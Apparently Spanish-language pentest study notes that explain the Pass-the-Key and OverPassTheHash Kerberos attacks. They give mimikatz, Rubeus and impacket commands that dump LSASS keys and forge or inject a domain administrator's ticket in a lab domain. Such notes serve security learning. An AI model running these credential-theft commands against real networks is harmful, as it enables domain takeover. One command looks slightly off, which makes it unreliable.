


PASS THE KEY
Con Kerberos cuando iniciamos sesión la contraseña se hashea y se almacena en memoria proceso LSAS.
El paquete autenticación Kerberos accede al hash y lo utiliza para cifrar el timestamp, tickets, etc.
Kerberos soporta varios hashes:
El concepto es lo mismo de passthehash de modificar el hash que cogería de forma predeterminada si pedimos un servicio con un usuario sin privilegios y modificarlo por el que indiquemos.
Con mimikatz podemos repetir el proceso de la parte anterior:
sekurlsa::pth /user:administrador /domain:corp.local /ntlm:a87f3a337d73085c45f9416be5787d86

Si nos fijamos nos indica que lo reemplaza en la zona de memoria del proceso LSAS que consulta el paquete de autenticación msv1_0 pero además lo copia en el paquete de autenticación kerberos.
Si por ejemplo queremos capturar un TicketGrantingTicket a nombre del usuario administrador del domino:
rubeus.exe asktgt /domain:corp.local /user:administrador /rc4:a87f3a337d73085c45f9416be5787d86 /ptt
OverPassTheHash se diferencia de PassTheHash en que forzamos al sistema kerberos a usar una encriptación en este caso RC4 que es igual a NTLM y que por defecto no usa pero si soporta haciéndolo así creer que igualmente el usuario que pide el TGT es el administrador.
Con mimikatz podemos volcar de igual manera los hashes de kerberos almacenados en la logonsession:
sekurlsa::ekeys

Encontramos los dos hashes uno en AES256 que es el que utiliza por defecto kerberos y el RC4 que es el que hemos obligado a que use en la anterior petición y es igual al NTLM.
Impacket:
impacket-getTGT corp.local/administrador -hashes :a87f3a337d73085c45f9416be5787d86
impacket-getTGT corp.local/administrador -hashes :3b820f5f55bdc8faa271143860bf3fb35aa5294df7d54b3c0a899c2dda0e0fe7
OverPassTheHash → Utilizamos RC4 o NTLM al igual que con PassTheHash
PassTheKey → Utilizamos un dump de la clave AES256 que utiliza kerberos de la logonsession.